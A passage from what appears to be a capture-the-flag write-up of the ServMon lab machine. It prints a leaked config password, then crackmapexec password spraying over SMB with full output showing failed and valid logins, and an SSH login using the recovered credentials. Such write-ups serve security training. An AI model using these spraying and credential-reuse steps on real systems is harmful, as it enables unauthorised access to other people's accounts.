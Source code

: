 ```
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
...
```
Looks like the service is only allowed to be accessed locally. This will be useful later on.

### 5. Use the credentials
Firstly ran CME to see if this was the password for any of the users.
```bash
┌──(kali㉿kali)-[10.10.14.31]-[~/Desktop]
└─$ crackmapexec smb 10.129.103.173 -u users.txt -p passwords.txt
SMB         10.129.103.173  445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.129.103.173  445    SERVMON          [-] ServMon\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.103.173  445    SERVMON          [-] ServMon\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.103.173  445    SERVMON          [-] ServMon\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.103.173  445    SERVMON          [-] ServMon\Nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.129.103.173  445    SERVMON          [-] ServMon\Nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.129.103.173  445    SERVMON          [-] ServMon\Nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.129.103.173  445    SERVMON          [-] ServMon\Nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.129.103.173  445    SERVMON          [-] ServMon\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.103.173  445    SERVMON          [-] ServMon\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.103.173  445    SERVMON          [-] ServMon\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.103.173  445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk
```
Some valid credentials are now known: `Nadine:L1k3B1gBut7s@W0rk`. All the available shares are default.

### 6. Get a shell
Log in over SSH as Nadine.
```language
┌──(kali㉿kali)-[10.10.14.31]-[~/Desktop]
└─$ ssh Nadine@10.129.133.101
Nadine@10.129.133.101's password: 

Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```
